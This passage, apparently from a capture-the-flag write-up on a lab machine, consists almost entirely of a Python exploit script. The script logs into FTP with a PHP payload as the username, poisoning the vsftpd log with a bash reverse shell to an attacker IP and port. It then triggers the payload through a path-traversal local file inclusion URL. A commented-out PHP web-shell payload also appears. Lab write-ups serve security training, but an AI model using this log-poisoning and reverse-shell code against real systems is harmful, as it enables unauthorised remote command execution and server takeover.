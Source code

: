 ![](/assets/img/posts/pikaboo/rev-shell.png)

Python script to automate the exploit
```py
import ftplib
import requests as r

lhost = '10.10.14.42' #changeme
lport = '4141' #changeme
# payload = """'<?php system($_GET['c']); ?>'"""
payload = f"""'<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/{lhost}/{lport} 0>&1'"); ?>'"""
server = ftplib.FTP()
try:
    server.connect('10.10.10.249', 21)
    server.login(payload, '')
except ftplib.all_errors as e:
    print(e)
except KeyboardInterrupt as e:
    exit('KeyboardInterrupt')

lfi_url = f'http://10.10.10.249/admin../admin_staging/index.php?page=/var/log/vsftpd.log'

try:
    rspn = r.get(lfi_url, timeout=10)
    # print(rspn.text)
except r.exceptions.Timeout:
    exit('Request timeout')
except r.exceptions.RequestException as e:
    exit(e)
except KeyboardInterrupt:
    exit('KeyboardInterrupt')
```
